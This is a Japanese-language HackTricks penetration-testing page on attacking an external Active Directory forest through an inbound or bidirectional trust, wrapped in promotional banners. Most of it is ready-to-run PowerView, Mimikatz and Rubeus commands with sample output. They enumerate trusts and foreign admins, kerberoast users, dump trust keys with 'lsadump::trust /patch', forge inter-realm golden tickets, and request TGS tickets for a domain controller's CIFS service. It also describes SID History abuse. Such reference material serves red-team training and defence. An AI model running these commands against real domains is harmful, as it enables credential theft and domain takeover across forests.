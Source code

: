# External Forest Domain - OneWay (Inbound) or bidirectional

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業**で働いていますか？**HackTricksで企業を宣伝**してみたいですか？または**PEASSの最新バージョンを入手したり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見しましょう。独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションです。
* [**公式PEASS＆HackTricks swag**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォロー**してください。
* **ハッキングトリックを共有するには、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)**にPRを提出してください。

</details>

このシナリオでは、外部ドメインがあなたを信頼しています（またはお互いを信頼している）、そのため何らかのアクセス権を得ることができます。

## 列挙

まず第一に、**信頼関係**を**列挙**する必要があります：
```powershell
Get-DomainTrust
SourceName      : a.domain.local   --> Current domain
TargetName      : domain.external  --> Destination domain
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes :
TrustDirection  : Inbound          --> Inboud trust
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM

# Get name of DC of the other domain
Get-DomainComputer -Domain domain.external -Properties DNSHostName
dnshostname
-----------
dc.domain.external

# Groups that contain users outside of its domain and return its members
Get-DomainForeignGroupMember -Domain domain.external
GroupDomain             : domain.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=domain,DC=external
MemberDomain            : domain.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=domain,
DC=external

# Get name of the principal in the current domain member of the cross-domain group
ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\External Admins

# Get members of the cros-domain group
Get-DomainGroupMember -Identity "External Admins" | select MemberName
MemberName
----------
crossuser

# Lets list groups members
## Check how the "External Admins" is part of the Administrators group in that DC
Get-NetLocalGroupMember -ComputerName dc.domain.external
ComputerName : dc.domain.external
GroupName    : Administrators
MemberName   : SUB\External Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True

# You may also enumerate where foreign groups and/or users have been assigned
# local admin access via Restricted Group by enumerating the GPOs in the foreign domain.
```
前の列挙で、ユーザー **`crossuser`** が **`External Admins`** グループにいて、**外部ドメインのDC** 内で **管理者アクセス** を持っていることがわかりました。

## 初期アクセス

他のドメインでユーザーの特別なアクセス権限を見つけられなかった場合、引き続きAD Methodologyに戻り、特権のないユーザーから昇格を試みることができます（たとえば、kerberoastingなどの方法）:

`-Domain` パラメータを使用して、**他のドメイン** を列挙するために **Powerview 関数** を使用できます。
```powershell
Get-DomainUser -SPN -Domain domain_name.local | select SamAccountName
```
## インパーソネーション

### ログイン

外部ドメインにアクセス権を持つユーザーの資格情報を使用して通常の方法でログインすると、アクセスできるはずです：
```powershell
Enter-PSSession -ComputerName dc.external_domain.local -Credential domain\administrator
```
### SID Historyの悪用

フォレスト間の信頼関係を横断して[**SID History**](sid-history-injection.md)を悪用することもできます。

ユーザーが**1つのフォレストから別のフォレストに移行**され、かつ**SIDフィルタリングが有効でない**場合、**他のフォレストからSIDを追加**することが可能となり、この**SID**は**信頼関係を横断して認証する際にユーザーのトークンに追加**されます。

{% hint style="warning" %}
注意として、サイニングキーを取得できます。
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.domain.local
```
{% endhint %}

現在のドメインのユーザーを**偽装**するTGTに、**信頼された**キーで**署名**することができます。
```bash
# Get a TGT for the cross-domain privileged user to the other domain
Invoke-Mimikatz -Command '"kerberos::golden /user:<username> /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:C:\path\save\ticket.kirbi /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
### ユーザーの完全ななりすまし
```bash
# Get a TGT of the user with cross-domain permissions
Rubeus.exe asktgt /user:crossuser /domain:sub.domain.local /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

# Get a TGT from the current domain for the target domain for the user
Rubeus.exe asktgs /service:krbtgt/domain.external /domain:sub.domain.local /dc:dc.sub.domain.local /ticket:doIFdD[...snip...]MuSU8= /nowrap

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:doIFMT[...snip...]5BTA== /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業**で働いていますか？**HackTricksで会社を宣伝**したいですか？または**最新バージョンのPEASSを入手したり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[NFTs](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
* [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れましょう
* **[💬](https://emojipedia.org/speech-balloon/) [Discordグループ](https://discord.gg/hRep4RUj7f)または[telegramグループ](https://t.me/peass)に参加**するか、**Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォロー**してください。
* **ハッキングトリックを共有するために、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)**にPRを提出してください。

</details>
